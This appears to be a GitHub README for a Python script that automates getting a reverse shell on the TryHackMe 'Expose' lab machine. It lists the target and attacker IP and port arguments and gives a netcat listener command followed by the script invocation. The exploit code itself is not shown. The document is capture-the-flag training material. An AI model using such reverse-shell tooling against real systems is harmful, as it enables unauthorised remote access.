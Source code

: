 # Expose-Tryhackme
Python script to get direct reverse shell of expose machine on tryhackme

-u = website's IP
-p = port on which website is running like 1337
-a = attacker's IP , Your tun0 IP
-nc = Netcat port , ex : 9001

## Steps : 
*1. run : rlwrap nc -nlvp {port}*
*2. python3 shell.py -u {value} -p {value} -a {value} -nc {value}* 
*Enjoy you shell*

## THANKYOU!
